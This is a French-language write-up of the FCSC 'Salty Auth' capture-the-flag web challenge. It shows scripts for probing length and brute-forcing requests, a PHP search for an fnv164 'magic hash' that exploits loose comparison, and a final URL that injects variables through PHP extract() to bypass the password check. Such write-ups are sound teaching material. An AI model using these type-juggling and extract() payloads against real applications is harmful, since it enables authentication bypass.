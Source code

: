 ```yaml
---
title: FCSC - Salty Auth
date: 2023-05-06
summary: Type Juggling et éxécution de code avec Extract
author: Nu1t
description: Writeup
tags:
  - web
resources:
  - name: "featured-image"
    src: "featured-image.png"
---
```


## Enonce

![](./enonce.png)

On atterrit ici:
 
![](./chall.png)

## Conditions

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

'''
$salt = bin2hex(random_bytes(12));  # 24 chars

extract($_GET);

$secret = gethostname() . $salt;
'''
for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

## Magic hash

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de faire un magic hash de la bonne taille pour forcer un `===0`

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}

?>
```

![](./wrong.png)

Et après le `random` est bien embêtant ...

On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit x)

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Extract()?

En me repenchant dessus j'ai trouvé une vuln: on peut appeler `log_attack`:
Voir:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/

![](./log_attack.png)

Et récupérer le hostname:

![](./hostname.png)

## Réinitialisation du salt

On réutilise notre script PHP.

Grâce à extract on peut:

- préciser notre premier salt
- mettre un 2nd password (avec un nouveau salt) pour avoir 

```php
$password !== $secret
```

et

```php
hash('fnv164', $password) == hash('fnv164', $secret)
```

![](./solve.png)

On a plus qu'à:

`https://salty-authentication.france-cybersecurity-challenge.fr/?password=HASH_DU_SECRET&log_attack=extract($_SERVER);&salt=NOUVEAU_SALT`

Tada!!

![](./flag.png)
